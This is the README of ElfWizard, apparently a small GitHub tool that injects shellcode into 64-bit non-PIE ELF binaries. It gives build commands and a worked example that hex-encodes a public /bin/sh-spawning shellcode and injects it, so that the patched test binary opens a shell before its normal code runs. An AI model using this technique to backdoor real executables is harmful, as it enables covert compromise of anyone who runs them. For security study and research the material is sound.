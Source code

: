 # ElfWizard
A simple tool to inject shellcode into an ELF binary.

## Requirements
* gcc
* A 64 bits ELF binary (no PIE)

## Example
I will use test/test.c program for this example:
First we compile our binary:
```
gcc -o test/test test/test.c -fno-pie -no-pie
```

We compile ElfWizard:
```gcc
gcc -o elfwizard src/main.c src/misc.c src/elf.c -Iincludes/
```

We are ready to inject a shellcode, I choose a simple shellcode that starts /bin/sh (http://shell-storm.org/shellcode/files/shellcode-806.php) We need to convert the shellcode to a hex string before, we can do that with python for example:

```
print(b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05".hex())
```
We are ready to run ./elfwizard

```./elfwizard --inject 31c048bbd19d9691d08c97ff48f7db53545f995257545eb03b0f05 test/test
```

Now if we run test/test, /bin/sh will be executed before the expected program.